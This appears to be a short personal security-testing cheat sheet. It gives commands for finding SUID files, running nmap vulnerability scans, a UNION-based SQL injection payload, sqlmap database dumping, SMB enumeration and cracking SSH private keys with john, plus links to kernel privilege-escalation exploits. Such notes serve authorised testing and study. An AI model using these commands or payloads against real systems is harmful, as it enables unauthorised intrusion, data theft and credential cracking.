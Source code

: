 # Sec notes



### Privilege escalation exploits:

* Kernel **< 4.4.0-116** : https://www.exploit-db.com/exploits/44298
* Kernel **< 4.13.9** (Ubuntu 16.04 - Fedora 27): https://www.exploit-db.com/exploits/45010

### Find exploitable bins

- `find / -perm -u=s -type f 2>/dev/null | grep -v /proc`
- `find / -perm -o+w -type f 2>/dev/null | grep -v /proc`



### Nmap useful commands:

* Scan host deep : `nmap -Pn  -sS -sV --script=default,vuln -p- -T5 <ip>`

### Wordpress

- TODO

### SQL Injection

- Example concatenate other table where injection is possible : 
  - `<injection_param> UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = '<tablename>'`
- **SQLMAP** 
  - Dump databases: 
    - `sqlmap -u http://example.com/users/<injection_param> --dbs --match`
  - Dump tables:
    -  `sqlmap -u http://example.com/users/<injection_param> -D <db_name> --tables --match`

### SMB

- Enumerate SMB users
  - `enum4linux -a <ip>`


### SSH
- Bruteforce a SSH private key
  - `python /usr/share/john/ssh2john.py <private_key> > private_key.hash
  - `john --wordlist=/path/to/wordlists/wordlist.txt private_key.hash

------




### Misc links:

* From webshell to full tty :  https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
* Cheatsheet post exploit linux : https://guif.re/linuxeop
* SSH bruteforcer in go (way faster than hydra) : https://github.com/aldenso/sshgobrute
